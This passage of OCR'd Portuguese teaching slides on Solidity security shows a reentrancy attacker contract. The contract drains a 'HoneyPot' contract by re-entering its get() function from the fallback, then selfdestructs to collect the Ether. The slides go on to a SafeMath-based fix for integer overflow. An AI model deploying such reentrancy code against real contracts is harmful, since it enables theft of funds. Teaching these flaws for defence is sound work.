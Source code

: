   constructor(address _honeypot) public payable {
    honeypot = HoneyPot(_honeypot);
    owner = msg.sender;
  }
  
  function kill () public {
    require (msg.sender == owner, "only owner");
    selfdestruct(msg.sender);
  }
  
  function collect() public payable {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }
  
  function () external payable {
    if (address(honeypot).balance >= msg.value) {
      honeypot.get();
    }
  }
  
  function totalSupply() public view returns (uint256) {
      return address(this).balance;
  }  
  
}


Balance problem
O que acontece se alguém mandar Ether 2x para o HoneyPot?



https://github.com/OpenZeppelin/openzeppelin-contracts

https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/math/SafeMath.sol



IntegerOK.sol


pragma solidity ^0.5.11;

contract IntegerOk {
    using SafeMath for uint256;

  uint256 constant MAX_UINT256 = 2**256-1;

  mapping (address => uint256) public balanceOf;

  constructor() public {
    balanceOf[msg.sender] = MAX_UINT256;
  }

  function transfer(address _to, uint256 _value) public {
    balanceOf[msg.sender] = balanceOf[msg.sender].sub(_value);
    balanceOf[_to] = balanceOf[_to].add(_value);
  }

}
